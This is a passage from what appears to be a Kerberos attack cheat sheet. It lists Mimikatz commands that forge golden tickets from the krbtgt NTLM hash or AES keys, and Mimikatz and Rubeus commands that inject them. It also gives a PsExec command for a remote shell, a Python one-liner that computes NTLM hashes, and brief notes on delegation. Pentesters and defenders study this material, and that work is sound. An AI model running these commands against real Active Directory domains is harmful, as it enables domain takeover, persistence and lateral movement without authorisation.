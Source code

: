 ### Windows (internal)

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Misc

To get NTLM from password:

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## Delegation

> Allows a service impersonate the user to interact with a second service, with the privileges and permissions of the user
>
> * If a user has delegation capabilities, all its services (and processes) have delegation capabilities.
> * KDC only worries about the user who is talking to, not the process.
> * Any process belonging to the same user can perform the same actions in Kerberos, regardless of whether it is a service or not.
> * Unable to delegate if  NotDelegated (or ADS\_UF\_NOT\_DELEGATED) flag is set in the User-Account-Control attribute of the user account or user in Protected Users group.
